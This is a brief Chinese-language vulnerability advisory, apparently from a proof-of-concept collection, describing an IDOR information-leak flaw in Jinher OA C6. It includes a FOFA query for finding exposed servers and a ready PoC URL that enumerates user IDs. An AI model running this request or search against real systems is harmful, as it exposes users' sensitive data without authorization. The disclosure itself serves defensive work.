

# 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## FOFA

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号



泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA